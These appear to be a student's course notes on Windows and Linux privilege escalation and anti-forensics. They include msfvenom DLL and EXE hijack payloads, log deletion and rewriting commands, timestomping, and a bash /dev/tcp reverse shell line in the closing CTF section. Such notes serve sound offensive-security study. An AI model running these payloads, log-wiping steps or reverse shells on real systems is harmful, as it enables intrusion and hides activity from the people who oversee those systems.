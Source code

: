 # Windows
#### Scheduled Tasks and Services
* Write Permissions
* Non-Standard Locactions
* Unquoted Executable Paths
* Vulnerabilities in Executables
* Permissions to Run as `SYSTEM`
#### DEMO: Finding vulnerable Scheduled Tasks
##### DLL Stuff
* Can you rename the file?
* Can you write to the directory?
* Go to procmon:
  - filter by process name "Name of Process"
  - Filter result contains "NAME NOT FOUND"
  - filter path contains ".dll"
* MSFVENOM
  - `msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\users\student\desktop\whoami.txt' -f dll > SSPICLI.dll`
  - SCP the file over to the windows station
#### EXE Replacement
* Can you rename the file?
* Can you write to the directory?
* MSFVENOM
  - `msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\users\student\desktop\whoami.txt' -f exe > putty.exe`
* Drag and drop the payload
```
auditpol /get /category:*
auditpol /get /category:* | findstr /i "success failure"
```
#### Important Microsoft Event IDs
* 4624/4625 - Successful/failed login
* 4720 - Account created
* 4672 - Adminstrative User logged on
* 7045 - Service Created

# Linux
#### Resources
* [GTFOBins](https://gtfobins.github.io)
#### Sudo Gotchas!
* Commands that can access the contents of other files
* Commands that download files
* Commands that execute other commands (Like editors)
* Dangerous Commands
#### SUID/SGID
* The User that owns the file can edit the file (SUID)
* The group that owns the file can edit the file (SGID)
* Everyone can edit the file, but only one user can delete the file (Sticky Bit)
* `find / -type f -perm /4000 -ls 2>/dev/null    # Find files with specific permissions (SUID: 4000) (SGID: 2000) (BOTH: 6000)`
#### Insecure Permissions
* CRON
  - `-l  # List`
  - `-e  # Edit`
  - `contab -u <user> -l  # List crontab for specific user`
* World-Writable Files and Directories
  - * `find / -type d -perm /2 -ls 2>/dev/null`
* Dot '.' in PATH
  - Lets you execute commands that are in your present working directory
  - `export PATH=".:$PATH"`
## Covering Your Tracks
#### Artifacts
* Things that we leave behind in a system
#### NIX-ism
* First thing: unset HISTILE
* Need to be  aware of init system in use
  - SYSTEMV, upstart, SYSTEMD, to name a few
  - Determines what commands to use and logging structure
* How to tell if sysV or Systemd `ps -p 1`
#### SystemD
* Utilizes `journalctl`
* `journalctl _TRANSPORT=audit | grep 603`
#### Working with Logs
```
file /var/log/wtmp
file /var/log -type f -mmin -10 2>/dev/null
journal -f -u ssh
journalctl -q SYSLOG_FACILITY=10 SYSLOG_FACILITY=4
```
#### Cleaning The Logs (Basic)
* Before we start cleaining, save the INODE!
  - Affect on the inode of using `mv` vs `cp` vs `cat`
##### Get rid of it
* `rm -rf /var/log/...`
##### Clear it
* `cat /dev/null > /var/log/...`
* `echo > /var/log/...`
#### Cleaning The Logs (Precise)
##### GREP (Remove)
* `egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2`
##### SED (Replace)
* `cat auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log`
##### Timestomp
* `touch -c -t 201603051015 1.txt    # Explicit`
* `touch -r 3.txt 1.txt    # Reference`
#### Rsyslog
* Newer Rsyslog references `/etc/rsyslog.d/*` for settings/rules
* Older versions only uses `/etc/ryslog.conf`
* Find out with `grep "IncludeConfig /etc/rsyslog.conf`
```
kern.*                                                # All kernel messages, all severities
mail.crit
cron.!info,!debug
*.*  @192.168.10.254:514                                                    # Old format
*.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
#mail.*
```
# CTF
```
watch -n1 'ls -l'
/bin/bash -i >& /dev/tcp/192.168.28.135/33403 0>&1
```
5feff04460d67d0139719503e72c8054











